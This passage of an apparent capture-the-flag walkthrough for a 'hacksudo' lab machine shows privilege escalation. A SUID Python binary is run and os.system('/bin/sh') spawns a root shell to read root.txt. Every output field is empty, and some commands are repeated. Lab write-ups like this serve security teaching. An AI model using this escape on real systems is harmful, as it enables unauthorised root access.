





5. Privilege Escalation (4th flag)
1. You're logged as “isro” user. You can see there's a directory called “fog”. List the files.
isro@hacksudo:~/fog$ls -al
Output:

2. Look up it’s content by using strings command.
isro@hacksudo:~/fog$strings fog
Output:

It's a python binary and SUID.
3. Run the file “fog”.
isro@hacksudo:~/fog$./fog
Output:

4. Run the following commands.
>>> import os
>>> os.system('/bin/sh')
#id
>>> os.system('/bin/sh')
#id
Output:

5. Get the “root” flag.
#cd /root
#ls
#cat root.txt
#ls
#cat root.txt
Output:
